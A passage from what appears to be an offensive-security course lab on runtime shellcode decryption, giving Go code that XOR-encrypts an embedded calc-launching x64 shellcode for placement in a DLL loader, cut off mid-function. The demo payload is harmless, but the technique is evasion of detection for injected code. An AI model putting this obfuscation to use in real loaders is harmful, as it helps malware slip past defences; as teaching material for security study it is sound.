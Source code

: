 ```yaml
---
showTableOfContents: true
title: "Implementing Runtime Shellcode Decryption (Lab 9.2)"
type: "page"
---
```

## Goal
In this lab we'll implement obfuscation on the level of our payload. Specifically we'll:
- Create a XOR encryption application to obfuscate our shellcode prior to embedding it in our DLL
- We'll also give our DLL a function to decrypt the shellcode immediately prior to execution

## Code: Offline Obfuscator
Note that I'm providing it here as a Go program for consistency, but in all honesty for a job like this I would typically lean towards a Python script - simple, easy, single-serving utility. So feel free to recreate this in Python if that's what you'd prefer, it obviously does not impact the outcome.

```go
package main

import "fmt"

func main() {
	shellcode := []byte{
		0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63,
		0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48,
		0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
		0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24,
		0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45,
		0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7,
		0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3,
	}

	// XOR key
	key := []byte{0xDE, 0xAD, 0xC0, 0xDE}
	keyLen := len(key)

	// Create a slice to hold the encrypted shellcode.
	// Pre-allocating with make is efficient as we know the final size.
	encryptedShellcode := make([]byte, len(shellcode))

	// Perform XOR encryption
	for i := 0; i < len(shellcode); i++ {
		encryptedByte := shellcode[i] ^ key[i%keyLen]
		encryptedShellcode[i] = encryptedByte
	}

	// --- Print in C array format ---

	fmt.Println("unsigned char calc_shellcode[] = {")

	// Iterate through the encrypted shellcode for printing
	for i, b := range encryptedShellcode {
		// Add a newline every 15 bytes, but not at the very beginning
		if i%15 == 0 && i != 0 {
			fmt.Println() // Print a newline
		}
		// Print the byte in 0xXX format, followed by a comma and space
		fmt.Printf("0x%02X, ", b)
	}

```